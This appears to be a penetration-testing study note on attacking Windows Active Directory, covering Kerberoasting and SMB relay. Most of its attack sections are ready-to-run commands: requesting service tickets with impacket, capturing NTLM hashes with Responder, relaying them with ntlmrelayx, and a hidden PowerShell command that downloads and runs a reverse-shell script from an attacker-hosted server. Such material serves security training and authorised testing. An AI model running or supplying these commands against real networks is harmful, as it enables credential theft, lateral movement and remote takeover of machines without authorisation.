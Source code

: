 **Active Directory** (AD) is a directory service developed by Microsoft for managing and organizing information about network resources, such as computers, users, and devices, within a Windows network environment. It serves as a centralized database that enables administrators to efficiently and securely manage and authenticate users, computers, and other network elements.

Useful video: https://www.youtube.com/watch?v=-bNb4hwgkCo&t=1s
# Kerberoasting
It is a method used to extract and crack service account passwords that utilize Kerberos authentication within a Windows Active Directory environment. This attack targets accounts with Kerberos Service Principal Names (SPNs) set, allowing attackers to request encrypted service tickets from the domain controller.
- One method that can be used is using 'impacket-GetUserSPNs'. If we have a user with a username ended in *TGS* that means that is part of a TICKET GRANTING SERVICE. We can use this to ask a ticket to the Domain Controller.
```bash
impacket-GetUserSPNs -request -dc-ip target_ip domain_name/user
```

# SMB Relay

**SMB Relay** is a type of attack that targets the Server Message Block (SMB) protocol used primarily for providing shared access to files, printers, and serial ports in a network.

The attack involves intercepting and relaying SMB authentication attempts to another SMB server, allowing an attacker to gain unauthorized access or execute commands with the victim's credentials.

## Key Concepts

1. **SMB (Server Message Block) Protocol**:
    
    - A network protocol used for sharing files, printers, and serial ports.
    - Operates over TCP/IP using ports 139 and 445.
2. **NTLM (NT LAN Manager) Authentication**:
    
    - A suite of Microsoft security protocols intended to provide authentication, integrity, and confidentiality to users.
    - SMB often uses NTLM for authentication.
3. **Relay Attack**:
    
    - An attacker intercepts the authentication process.
    - Instead of cracking the intercepted credentials, the attacker relays them to another server to authenticate.

## Attack Process

1. **Configuring Responder**:
- Modify the `Responder.conf` configuration file to enable or disable specific protocols. For SMB relay, ensure that SMB and HTTP are set to `On` and that `HTTP Server` is also enabled.
```java
sudo nano /etc/responder/Responder.conf
```
2. **Intercept**:
- The attacker sets up a malicious SMB server to intercept authentication attempts.
- The attacker needs to position themselves in the network to intercept SMB traffic (Man-in-the-Middle), this can be done with *Responder*.
```java
python3 Responder.py -I <interface> -rdw
```
3. **Cracking hashes**:
- After some time different user hashes would be captured by the Responder. All this hashes can be cracked using tools as *John* or *Hashcat* before executing the relay. 

4. **Setting Up SMB Relay with Impacket**:
- Create a `targets.txt` file that contains the IP addresses of the target servers you want to relay the credentials to.
- Use Impacket's **ntlmrelayx.py** script to relay the captured credentials to another target server.
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```
5. **Gaining access**:
- Create a simple reverse shell payload that can be executed on the target host. For example, using PowerShell for a Windows target:
```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "iex(New-Object Net.WebClient).DownloadString('http://attacker-ip/shell.ps1')"
```
	
-  Host the `shell.ps1` script on your attacker machine (e.g., using a simple HTTP server).
```bash
python3 -m http.server 80
```
- Run NTLMRelayx.py with the Reverse Shell Command:
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "powershell -NoP -NonI -W Hidden -Exec Bypass -Command \"iex(New-Object Net.WebClient).DownloadString('http://attacker-ip/shell.ps1')\""
```